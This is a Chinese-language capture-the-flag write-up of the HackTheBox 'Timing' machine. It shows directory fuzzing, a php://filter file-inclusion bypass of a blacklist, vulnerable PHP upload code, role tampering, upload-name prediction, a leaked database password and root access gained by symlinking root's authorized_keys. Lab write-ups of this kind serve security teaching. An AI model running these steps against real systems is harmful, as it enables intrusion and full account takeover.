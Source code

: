 ```yaml
---
title: Timing
date: 2022-04-02 10:31:57
tags: HackThebox
categories: 越权漏洞
---
```


## 信息收集
发现目标主机开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d3e41d24d1a44a1aa4a82b48365cf65.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
访问web页面时，发现是个表单登录页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/6730e5cfcb824e4f985f905cdd94cbb7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

尝试一下是否存在弱口令，虽然hackthebox不太可能，但是还得走这流程。很显然，弱口令是不存在的
![在这里插入图片描述](https://img-blog.csdnimg.cn/cd4aa6f0ffdd41469bacdb1fdd08e639.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们扫一下目录吧，看看有什么新发现，发现存在一个images目录和image.php文件

```bash
ffuf -u http://10.10.11.135/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -e .php -fc 403
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/af20f495b50d40c184a97f26c294aec4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

访问image.php文件时，发现是个空内容啥也没有。访问image目录时，显示403
![在这里插入图片描述](https://img-blog.csdnimg.cn/8703d35872f5488d9754581fe77c141a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/80aab0b40e594eaeaa21d97f32c88383.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
感觉可以再进行进一步的fuzz，发现存在一个uploads目录，但是无法访问
![在这里插入图片描述](https://img-blog.csdnimg.cn/dc96ca0ce9ef4327b9910999404347a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们可以尝试fuzz一下image.php的一些参数值，fuzz出很多的值，但是访问基本也是空。初步判断可能参数错了
![在这里插入图片描述](https://img-blog.csdnimg.cn/418e84689eb34eefab53e7995fec7623.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们再换另一个参数试试
![在这里插入图片描述](https://img-blog.csdnimg.cn/8203f41504894bbb85b08a5f380bacb1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这边是可以读取到一个字符串的
![在这里插入图片描述](https://img-blog.csdnimg.cn/007de0f07faa4f33ba9c546cb931c296.png)
依照内容提示，我们应该是遇到WAF了。那接下来我们就得绕过这个WAF，读取我们想要读取到的内容

## 漏洞利用
通过参考github上面大佬的总结，我们可以使用php数据流读取的形式进行读取文件的相应内容，这是参考链接[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3952e04a31494c99aeb6570c202c003b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们对字符串进行base64解密，得到的内容如下。表示可以成功读取到文件内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/57dc03f7f5014d629a8d94ed5135803e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们读取到image.php的内容如下，存在黑名单过滤

```php
<?php

function is_safe_include($text)
{
    $blacklist = array("php://input", "phar://", "zip://", "ftp://", "file://", "http://", "data://", "expect://", "https://", "../");

    foreach ($blacklist as $item) {
        if (strpos($text, $item) !== false) {
            return false;
        }
    }
    return substr($text, 0, 1) !== "/";

}

if (isset($_GET['img'])) {
    if (is_safe_include($_GET['img'])) {
        include($_GET['img']);
    } else {
        echo "Hacking attempt detected!";
    }
}

```

我们读取到upload.php内容如下

```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
    }
} else {
    echo "Error: " . $error;
}
?>
```
可以看到存在一个`admin_auth_check.php`文件，我们尝试读取一下其内容

```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}

?>
```
很明显，根据代码的逻辑，我们要想使用上传功能，就必须拥有role1的权限，想到这里可能是要越权操作。我们很幸运可以使用`aaron:aaron`的账户密码登录成功。我们获取到的是一个user2的权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/f17dab9551f64efa9fb265cb910804b4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们进行进一步的越权操作，我们点击`Edit profile`，然后抓包分析，放包时发现似乎并没有role的权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/efe338fada3e45558e41322739063e34.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们可以自己添加一个role权限值，然后放包刷新，发现role值发生了改变
![在这里插入图片描述](https://img-blog.csdnimg.cn/8f57f2c56f8e46319366b09757a8fc54.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
刷新页面后，发现存在一个上传点
![在这里插入图片描述](https://img-blog.csdnimg.cn/324086907b80430d93ee8b978ce18b77.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
接着我们先把时间改为GMT，命令为

```bash
cp /usr/share/zoneinfo/GMT /etc/localtime
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0027306e60a448d79184278f3cbbeaaa.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们上传图片马后，先抓个包，然后再输入`php -a`，输入的命令如下，主要是循环一个变量，先打印时间，然后打印文件的md5值，最后换行和休眠一秒

```bash
while (true){echo date("D M j G:i:s T Y"); echo " = " ; echo md5('$file_hash' .time());echo "\n";sleep(1);}
```
执行这个命令后我们立刻放包，然后停止循环，逐个尝试后，最后得出可以得到用户的用户名
![在这里插入图片描述](https://img-blog.csdnimg.cn/02d568e8d7ee4f6ba24ded2e9ce6a138.png)
那么我们可以依照这个方法，获取我们的shell终端。因为这台机器有防火墙，所以我们得先看看`/opt`目录下都有哪些文件，只有一个源码zip文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae1644279489441d81fccc3517d0a89b.png)
我们可以先把它复制到`/var/www/html/images/uploads/`这个目录上
![在这里插入图片描述](https://img-blog.csdnimg.cn/8a162920d1b149a8bd1c94f42b3b1628.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们使用curl命令进行下载

```bash
curl 'http://10.10.11.135/image.php?img=images/uploads/source-files-backup.zip' --output source-files-backup.zip
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba0018e2906c4c649cdfbb25a697d364.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们解压看看里面都存在哪些内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/c596f4bf5cd34ce6bb749c3bec25e375.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
解压后我们发现存在一个`.git`目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/d8e8e9101a864918bfe2835a8987fe5e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`GitTools`的`extractor.sh`脚本看看都存在哪些内容。进入source文件夹内，发现多了两个目录

```bash
./extractor.sh . source
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/4cdb9273029742e7aa26f722ffc9ef77.png)
我们使用`diff`命令发现存在数据库密码

```bash
diff 0-e4e214696159a25c69812571c8214d2bf8736a3f 1-16de2698b5b122c93461298eab730d00273bd83e
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/06831bed1dce420c920515b450a143d9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们分别使用这两个密码尝试登录，发现`S3cr3t_unGu3ss4bl3_p422w0Rd`这个密码可以成功登陆aaron账户
![在这里插入图片描述](https://img-blog.csdnimg.cn/9b081d9bc9084d5f842fc3d35a740286.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
输入`sudo -l`后发现一个程序`netutils`可以无密码以root权限运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b562de4546c4cdda94e39decdd209be.png)
发现直接运行并不能成功，查看一下文件类型，发现是一个脚本文件，类型为jar文件。并且运行时提示了两个选项，一个是FTP，另一个是HTTP
![在这里插入图片描述](https://img-blog.csdnimg.cn/898ee64288d648eba2d202960e1ed0f0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在本地开启一个HTTP服务，并尝试能否成功下载，发现可以成功下载我物理机的文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5282fef41fc4abca23b0baf182e7b3f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
并且权限还是root权限，那这就好办了
![在这里插入图片描述](https://img-blog.csdnimg.cn/faca0ac016ec4c048a6dd3f9255056ab.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
首先我们对root账户下的.ssh文件创建一个链接

```bash
ln -s /root/.ssh/authorized_keys keys
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/50a0b703d7264cd39341165839e2ee62.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

然后我们本地生成一个ssh密钥，并将其改名为keys(这一步一定要做，不改名无法连接密钥)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2c33fcabfdcd47fb803e2604c6d77ed2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后开放http服务，运行`netutils`程序，选择HTTP选项，将公钥下载到靶机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/a32c8bc3ae9747209518a3d4ae77b060.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
最后在物理机上连接root用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/fadd0b445a964527b626423dcec9e6e2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
